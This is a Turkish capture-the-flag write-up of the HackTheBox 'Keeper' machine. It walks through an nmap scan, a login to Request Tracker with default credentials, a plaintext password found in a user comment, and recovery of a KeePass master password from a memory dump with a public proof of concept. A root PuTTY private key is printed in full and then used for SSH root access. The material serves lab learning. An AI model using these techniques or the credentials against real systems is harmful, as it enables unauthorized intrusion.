





# Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir giriş sayfasıyla karşılaştım:



Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola bilgisini (`password`) öğrendim ve bu bilgileri kullanarak giriş gerçekleştirebildim:



Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-posta konuşmasına rastladım:



Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:



Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola bilgisi (`Welcome2023!`) ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip
ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:



Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat root.txt
```
